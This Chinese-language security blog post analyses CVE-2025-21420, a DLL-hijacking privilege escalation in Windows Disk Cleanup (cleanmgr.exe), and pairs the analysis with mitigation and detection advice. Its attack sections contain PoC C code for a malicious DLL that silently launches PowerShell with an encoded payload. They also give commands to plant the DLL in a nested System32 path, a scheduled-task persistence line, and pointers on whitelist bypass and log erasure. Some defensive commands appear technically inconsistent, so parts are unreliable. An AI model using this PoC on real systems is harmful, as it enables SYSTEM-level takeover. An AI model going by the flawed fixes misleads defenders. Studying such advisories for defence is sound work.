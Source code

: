 #  紧急预警！Windows磁盘清理工具惊现高危漏洞，你的电脑可能面临被控制风险！   
云梦DC  云梦安全   2025-02-28 00:48  
  
漏洞概述  
  
CVE ID：CVE-2025-21420  
  
漏洞类型：DLL劫持（DLL Sideloading）引发的权限提升（EoP）  
  
影响组件：Windows磁盘清理工具（cleanmgr.exe）  
  
攻击复杂度：低（需用户交互或自动化触发）  
  
权限需求：需具备用户级文件写入权限  
  
风险等级：高危（可获取SYSTEM权限）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpwJFReVRm1pkicv9xfCrFLBXw1j0MlTF6X0r0qD3GVZ2aGM4dk22aE6zF1jfJKiaicWJY1ibgJ1dmQanw/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞机理深度剖析  
  
1. DLL搜索顺序劫持  
  
Windows系统加载DLL时，默认按以下顺序搜索（部分场景可能受SafeDllSearchMode影响）：  
  
应用程序所在目录  
  
系统目录（C:\Windows\System32）  
  
16位系统目录  
  
Windows目录  
  
当前工作目录  
  
PATH环境变量目录  
  
漏洞触发点：  
  
cleanmgr.exe在调用dokan1.dll或dokannp1.dll（Dokan库组件）时，未正确限定DLL加载路径，导致攻击者可通过构造特殊目录结构（如用户目录下的System32\System32\System32）优先加载恶意DLL。  
  
2. 路径混淆攻击  
  
攻击者利用文件系统路径解析逻辑缺陷：  
  
用户目录下创建嵌套路径：C:\Users\<user>\System32\System32\System32\  
  
系统API（如LoadLibrary）在解析非绝对路径时，可能错误将此路径视为合法系统目录，导致加载恶意DLL。  
  
关键验证方法：  
  
通过Process Monitor（ProcMon）监控cleanmgr.exe的DLL加载行为，可观察到其对伪造路径的访问记录。  
  
3. 权限提升链  
  
初始访问：攻击者诱导用户执行恶意脚本或通过计划任务部署恶意DLL。  
  
DLL劫持：cleanmgr.exe以SYSTEM权限运行时（如通过计划任务触发），加载恶意DLL。  
  
代码执行：恶意DLL的DllMain或导出函数（如DokanMain）执行任意代码，继承SYSTEM权限。  
  
PoC代码技术解析  
  
恶意DLL构造逻辑  
```
// 导出函数与合法dokan1.dll完全一致，避免触发异常
__declspec(dllexport) void DokanMain() { 
    static BOOL bExecuted = FALSE;
    if (!bExecuted) {
        bExecuted = TRUE;
        // 隐蔽启动PowerShell（无窗口）
        STARTUPINFO si = { sizeof(si) };
        PROCESS_INFORMATION pi;
        CreateProcessW(L"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe", 
                       L" -WindowStyle Hidden -EncodedCommand <BASE64_PAYLOAD>", 
                       NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
    }
}
```  
  
// 其他导出函数转发至DokanMain，防止崩溃  
  
__declspec(dllexport) void DokanDebugMode() { DokanMain(); }  
  
// ...（其余24个导出函数略）  
  
技术要点：  
  
导出函数匹配：精确复制合法DLL的导出表（可通过dumpbin /exports获取），确保兼容性。  
  
单次执行控制：使用static BOOL变量避免递归调用导致进程崩溃。  
  
隐蔽进程创建：通过CREATE_NO_WINDOW和Base64编码命令隐藏PowerShell活动。  
  
部署与触发  
```
# 将恶意DLL写入伪造路径
mkdir -p C:\Users\test\System32\System32\System32\
copy .\malicious.dll C:\Users\test\System32\System32\System32\dokannp1.dll
# 触发cleanmgr.exe（需等待计划任务或手动执行）
cleanmgr /sageset:2
```  
  
漏洞利用链扩展  
  
1. 持久化机制  
  
计划任务注入：  
  
通过恶意DLL创建计划任务，实现重启后维持权限。  
```
schtasks /create /tn "CleanupTrigger" /tr "cleanmgr /sageset:2" /sc hourly /mo 1
```  
  
服务安装：  
  
利用SYSTEM权限注册恶意服务，实现后台驻留。  
  
2. 绕过防御检测  
  
DLL白名单绕过：  
  
使用合法Dokan库签名（如果存在）或进程注入到可信进程（如explorer.exe）。  
  
日志擦除：  
  
调用EventLog API清除安全日志中相关条目。  
  
防御与检测方案  
  
1. 缓解措施（临时）  
  
目录权限加固：  
  
使用ICACLS禁止用户创建System32嵌套目录：  
```
icacls "C:\Users\%USERNAME%\System32" /deny Everyone:(OI)(CI)(DC)(DE,WD)
```  
  
  
DLL加载策略：  
  
通过组策略启用SetDefaultDllDirectories，限制DLL搜索路径：  
```
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "CWDIllegalInDllSearch" -Value 0x1 -Type DWORD
```  
  
2. 检测技术  
  
Sysmon监控：  
  
配置规则检测异常DLL加载事件：  
```
<RuleGroup name="DLL Hijacking">
  <ImageLoad onmatch="include">
    <ImageLoaded condition="contains">System32\System32\System32\</ImageLoaded>
    <Signature condition="not contains">Microsoft Corporation</Signature>
  </ImageLoad>
</RuleGroup>
```  
  
  
运行 HTML  
  
PowerShell脚本扫描：  
  
快速检测用户目录下的可疑路径：  
```
Get-ChildItem -Path "C:\Users\" -Recurse -Force -ErrorAction SilentlyContinue | 
  Where-Object { $_.FullName -match "System32\\System32\\System32" }
```  
  
  
3. 官方补丁前瞻  
  
微软可能采取的修复方向：  
  
绝对路径加载：在cleanmgr.exe中硬编码C:\Windows\System32\dokan1.dll。  
  
数字签名验证：调用WinVerifyTrust检查DLL签名。  
  
权限隔离：以低权限运行磁盘清理的敏感操作。  
  
结语  
  
CVE-2025-21420暴露了Windows系统工具在DLL加载机制上的深层安全隐患。攻击者通过路径混淆和导出表克隆即可实现权限飞跃，这对企业内网安全和终端防护提出严峻挑战。建议安全团队立即部署检测规则，并密切关注微软官方补丁动态。  
  
技术研究永无止境，防御之道在于细节。  
  
附录：分析工具链  
  
ProcMon：动态追踪DLL加载行为。  
  
Process Hacker：分析进程内存与句柄。  
  
IDA Pro：逆向分析cleanmgr.exe逻辑。  
  
YARA：编写规则检测恶意DLL特征。  
  
  
